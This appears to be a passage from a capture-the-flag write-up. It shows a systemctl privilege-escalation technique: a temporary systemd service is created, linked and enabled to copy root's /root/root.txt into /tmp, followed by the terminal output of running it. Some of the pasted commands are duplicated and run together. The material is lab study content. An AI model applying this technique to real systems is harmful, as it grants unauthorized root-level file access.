 ```
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
now let do it
```console
$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TFTF=$(mktemp).service
$ echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
> > > > $ Created symlink from /etc/systemd/system/tmp.u4QO9AG4pI.service to /tmp/tmp.u4QO9AG4pI.service.
$ 
systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.u4QO9AG4pI.service to /tmp/tmp.u4QO9AG4pI.service.
$ cat /tmp/flag
cat /tmp/flag
```